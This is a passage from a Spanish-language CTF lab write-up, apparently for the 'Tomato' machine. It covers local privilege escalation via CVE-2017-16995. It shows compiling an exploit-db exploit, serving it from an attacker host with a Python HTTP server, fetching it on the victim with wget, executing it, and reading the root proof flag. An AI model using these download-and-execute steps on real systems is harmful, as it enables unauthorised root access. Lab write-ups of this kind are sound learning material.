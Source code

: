 >Nos movemos al directorio `/home/tomato`, y vemos lo siguiente:

```shell
> ls -la

total 40
drwxr-xr-x 5 tomato tomato 4096 Sep  7  2020 .
drwxr-xr-x 3 root   root   4096 Sep  7  2020 ..
-rw------- 1 tomato tomato   10 Sep  7  2020 .bash_history
-rw-r--r-- 1 tomato tomato  220 Sep  7  2020 .bash_logout
-rw-r--r-- 1 tomato tomato 3771 Sep  7  2020 .bashrc
drwx------ 2 tomato tomato 4096 Sep  7  2020 .cache
drwxrwxr-x 2 tomato tomato 4096 Sep  7  2020 .nano
-rw-r--r-- 1 tomato tomato  675 Sep  7  2020 .profile
drwx------ 2 tomato tomato 4096 Sep  7  2020 .ssh
-rw-r--r-- 1 tomato tomato    0 Sep  7  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 tomato tomato  175 Sep  7  2020 .wget-hsts

```

>No podemos entrar al directorio `.ssh` ni leer `.bash_history`, así que poco podemos hacer. Intentamos enumerar la versión de kernel con `uname -a`. El kernel tiene una versión 4.4.0-21, por lo que podríamos hacer una elevación de privilegios mediante la [CVE-2017-16995](https://nvd.nist.gov/vuln/detail/CVE-2017-16995). Podemos agarrar [este](https://www.exploit-db.com/exploits/45010) exploit de la web de exploit-db.
>Lo compilamos en nuestro equipo de atacante, no en la máquina víctima. Aplicamos `gcc exploit.c -o exploit`. Luego, nos lo transferimos a la máquina víctima desde la máquina atacante levantando un servidor HTTP con python:

```shell
> sudo python3 -m http.server 80
```

>Desde la máquina víctima nos descargamos el recurso con wget.

```shell
> wget http://192.168.216.133/exploit
> chmod +x exploit
```

>Finalmente, ejecutamos el exploit y ganamos acceso como root a la máquina víctima.

```shell
> cd /root
> cat proof.txt
Sun_CSR_TEAM_TOMATO_JS_0232xx23
```
